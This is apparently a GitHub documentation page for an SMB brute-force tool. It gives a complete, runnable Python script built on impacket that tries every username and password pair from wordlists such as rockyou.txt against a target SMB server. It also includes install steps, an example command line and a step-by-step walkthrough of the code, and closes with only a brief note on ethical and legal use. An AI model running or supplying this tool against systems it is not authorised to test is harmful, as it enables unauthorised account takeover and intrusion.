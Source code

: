 # SMB Brute Force Tool
### SMB Brute Force Script Documentation

This documentation provides details on how to use the SMB Brute Force Script written in Python using the `impacket` library. This script attempts to brute force SMB login credentials on a specified target by trying combinations from provided username and password lists.

#### Prerequisites

Ensure you have Python installed. You also need the `impacket` library, which can be installed using `pip`:

```bash
pip install impacket
```

#### Script Description

The script performs the following functions:

1. **smb_login_test**: Attempts to log in to the SMB service on the target IP with the provided username and password.
2. **load_list_from_file**: Loads a list of usernames or passwords from a file, ensuring each entry is stripped of whitespace.
3. **brute_force_smb**: Iterates through combinations of usernames and passwords, calling `smb_login_test` for each combination.

#### Usage

To run the script, save it to a file named `smb_bruteforce.py` and execute it from the terminal with the necessary arguments.

##### Command Line Arguments

- `target_ip`: The IP address of the target SMB server.
- `-l` or `--userlist`: The path to the file containing the list of usernames.
- `-p` or `--passlist`: The path to the file containing the list of passwords.

##### Example Command

```bash
python smb_bruteforce.py 192.168.1.10 -l common_user.txt -p rockyou.txt
```

In this example:
- `192.168.1.10` is the target SMB server's IP address.
- `common_user.txt` is the file containing usernames.
- `rockyou.txt` is the file containing passwords.

#### Script Explanation

```python
import argparse
from impacket.smbconnection import SMBConnection
import time

def smb_login_test(target_ip, username, password, domain='', timeout=10):
    try:
        smb_connection = SMBConnection(target_ip, target_ip)
        smb_connection.login(username, password, domain)
        print(f"[+] Login successful on {target_ip} with username '{username}' and password '{password}'")
        smb_connection.logoff()
        return True
    except Exception as e:
        print(f"[-] Login failed on {target_ip} with username '{username}' and password '{password}'")
        return False

def load_list_from_file(file_path):
    try:
        with open(file_path, 'r', encoding='ISO-8859-1') as file:
            return [line.strip() for line in file.readlines()]
    except Exception as e:
        print(f"Error reading {file_path}: {e}")
        return []

def brute_force_smb(target_ip, username_list, password_list, domain=''):
    for username in username_list:
        for password in password_list:
            if smb_login_test(target_ip, username, password, domain):
                print(f"[!] Valid credentials found: {username} / {password}")
                return True
            time.sleep(1)  # Sleep to avoid rapid requests that may lock accounts
    return False

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="SMB Brute Force Script")
    parser.add_argument("target_ip", help="Target IP address")
    parser.add_argument("-l", "--userlist", required=True, help="Path to the username list file")
    parser.add_argument("-p", "--passlist", required=True, help="Path to the password list file")

    args = parser.parse_args()

    target_ip = args.target_ip
    username_file = args.userlist
    password_file = args.passlist

    username_list = load_list_from_file(username_file)
    password_list = load_list_from_file(password_file)

    if username_list and password_list:
        brute_force_smb(target_ip, username_list, password_list)
    else:
        print("Username list or password list is empty.")
```

### Detailed Steps

1. **Import Necessary Libraries**:
   The script imports the necessary libraries: `argparse` for parsing command line arguments, `SMBConnection` from `impacket` for SMB connections, and `time` for adding delay between login attempts.

2. **Define smb_login_test Function**:
   This function attempts to establish an SMB connection using the provided username and password. If successful, it prints a success message and logs off. If unsuccessful, it prints a failure message.

3. **Define load_list_from_file Function**:
   This function reads a file and returns a list of lines, stripped of any leading or trailing whitespace. It uses `ISO-8859-1` encoding to handle special characters in the `rockyou.txt` file.

4. **Define brute_force_smb Function**:
   This function takes a target IP, lists of usernames and passwords, and attempts to log in to the SMB server using each combination. It prints valid credentials if a successful login is found.

5. **Main Execution Block**:
   The script parses command line arguments for the target IP, username list file, and password list file. It then loads these lists and calls `brute_force_smb` to start the brute force attack.

### Notes

- **Ethical Use**: This script should only be used for ethical hacking and with permission from the owner of the target system.
- **Legal Implications**: Unauthorized use of this script can be illegal and punishable by law. Always ensure you have explicit permission before running any penetration testing tools.

This documentation should provide a comprehensive guide on how to use and understand the SMB Brute Force Script. If you have any questions or need further assistance, feel free to ask.
